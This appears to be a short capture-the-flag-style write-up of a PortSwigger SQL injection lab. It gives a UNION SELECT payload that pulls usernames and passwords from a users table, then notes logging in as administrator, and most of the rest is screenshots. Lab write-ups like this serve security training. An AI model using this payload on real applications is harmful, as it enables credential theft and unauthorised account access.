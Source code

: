 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d38edb54-4244-4cf4-b65e-ce752765d519)

## Solution :

Because both columns store text data, we can retrieve both the username and password from the users table without needing any additional concatenation method.

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT username,password FROM users --
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/faa57f51-ac75-491f-842a-fc1acdf5bd77)

Thus we got all the usernames & password stored in the database.
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/37a2f82c-1369-4282-82d3-e49376e051d1)

![image](https://user-images.githubusercontent.com/67383098/234061661-b0778724-17d3-4786-b67a-ad53930b2a46.png)
![image](https://user-images.githubusercontent.com/67383098/234061490-8a148bb3-9d40-4051-b378-6fdf807161e0.png)

Now we can login as administrator.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/950d8e72-deb1-4600-8dc7-04f61f2bedab)
